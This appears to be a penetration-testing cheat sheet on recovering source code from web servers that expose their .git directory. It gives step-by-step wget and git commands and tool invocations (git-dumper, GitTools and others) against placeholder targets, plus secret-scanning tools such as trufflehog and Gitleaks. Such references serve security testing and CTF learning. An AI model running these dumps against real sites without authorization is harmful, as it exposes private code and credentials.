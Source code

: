 # Git

## Summary

* [Methodology](#methodology)
    * [Recovering file contents from .git/logs/HEAD](#recovering-file-contents-from-gitlogshead)
    * [Recovering file contents from .git/index](#recovering-file-contents-from-gitindex)
* [Tools](#tools)
    * [Automatic recovery](#automatic-recovery)
        * [git-dumper.py](#git-dumperpy)
        * [diggit.py](#diggitpy)
        * [GoGitDumper](#gogitdumper)
        * [rip-git](#rip-git)
        * [GitHack](#githack)
        * [GitTools](#gittools)
    * [Harvesting secrets](#harvesting-secrets)
        * [trufflehog](#trufflehog)
        * [Yar](#yar)
        * [Gitrob](#gitrob)
        * [Gitleaks](#gitleaks)
* [Refererences]


## Methodology

The following examples will create either a copy of the .git or a copy of the current commit.

Check for the following files, if they exist you can extract the .git folder.

- .git/config
- .git/HEAD
- .git/logs/HEAD


### Recovering file contents from .git/logs/HEAD

1. Check for 403 Forbidden or directory listing to find the `/.git/` directory
2. Git saves all information in `.git/logs/HEAD` (try lowercase `head` too)
  ```powershell
  0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
  15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
  26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
  6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
  ```
3. Access the commit using the hash
  ```powershell
  # create an empty .git repository
  git init test
  cd test/.git

  # download the file
  wget http://web.site/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c

  # first byte for subdirectory, remaining bytes for filename
  mkdir .git/object/26
  mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

  # display the file
  git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
      tree 323240a3983045cdc0dec2e88c1358e7998f2e39
      parent 15ca375e54f056a576905b41a417b413c57df6eb
      author Michael <michael@easyctf.com> 1489390329 +0000
      committer Michael <michael@easyctf.com> 1489390329 +0000
      Initial.
  ```
4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
  ```powershell
  wget http://web.site/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
  mkdir .git/object/32
  mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

  git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
      040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
      100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
      040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
      100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
      040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
  ```
5. Read the data (flag.txt)
  ```powershell
  wget http://web.site/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
  mkdir .git/object/cb
  mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
  git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
  ```


### Recovering file contents from .git/index

Use the git index file parser https://pypi.python.org/pypi/gin (python3).

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```

Recover name and sha1 hash of every file listed in the index, and use the same process above to recover the file.

```powershell
$ gin .git/index | egrep -e "name|sha1"
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```


## Tools

### Automatic recovery

#### git-dumper.py

```powershell
git clone https://github.com/arthaud/git-dumper
pip install -r requirements.txt
./git-dumper.py http://web.site/.git ~/website
```

#### diggit.py

```powershell
git clone https://github.com/bl4de/security-tools/ && cd security-tools/diggit
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://web.site -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

#### GoGitDumper

```powershell
go get github.com/c-sto/gogitdumper
gogitdumper -u http://web.site/.git/ -o yourdecideddir/.git/
git log
git checkout
```

#### rip-git

```powershell
git clone https://github.com/kost/dvcs-ripper
perl rip-git.pl -v -u "http://web.site/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```

#### GitHack

```powershell
git clone https://github.com/lijiejie/GitHack
GitHack.py http://web.site/.git/
```

#### GitTools

```powershell
git clone https://github.com/internetwache/GitTools
./gitdumper.sh http://target.tld/.git/ /tmp/destdir
git checkout -- .
```


### Harvesting secrets

#### trufflehog

> Searches through git repositories for high entropy strings and secrets, digging deep into commit history.

```powershell
pip install truffleHog # https://github.com/dxa4481/truffleHog
truffleHog --regex --entropy=False https://github.com/dxa4481/truffleHog.git
```

#### Yar

> Searches through users/organizations git repositories for secrets either by regex, entropy or both. Inspired by the infamous truffleHog.

```powershell
go get github.com/nielsing/yar # https://github.com/nielsing/yar
yar -o orgname --both
```

#### Gitrob

> Gitrob is a tool to help find potentially sensitive files pushed to public repositories on Github. Gitrob will clone repositories belonging to a user or organization down to a configurable depth and iterate through the commit history and flag files that match signatures for potentially sensitive files.

```powershell
go get github.com/michenriksen/gitrob # https://github.com/michenriksen/gitrob
export GITROB_ACCESS_TOKEN=deadbeefdeadbeefdeadbeefdeadbeefdeadbeef
gitrob [options] target [target2] ... [targetN]
```

#### Gitleaks

> Gitleaks provides a way for you to find unencrypted secrets and other unwanted data types in git source code repositories.

```powershell
# Run gitleaks against a public repository
docker run --rm --name=gitleaks zricethezav/gitleaks -v -r https://github.com/zricethezav/gitleaks.git

# Run gitleaks against a local repository already cloned into /tmp/
docker run --rm --name=gitleaks -v /tmp/:/code/  zricethezav/gitleaks -v --repo-path=/code/gitleaks

# Run gitleaks against a specific Github Pull request
docker run --rm --name=gitleaks -e GITHUB_TOKEN={your token} zricethezav/gitleaks --github-pr=https://github.com/owner/repo/pull/9000

or

go get -u github.com/zricethezav/gitleaks
```


## References

- [Gitrob: Now in Go - Michael Henriksen - January 24, 2024](https://michenriksen.com/blog/gitrob-now-in-go/)
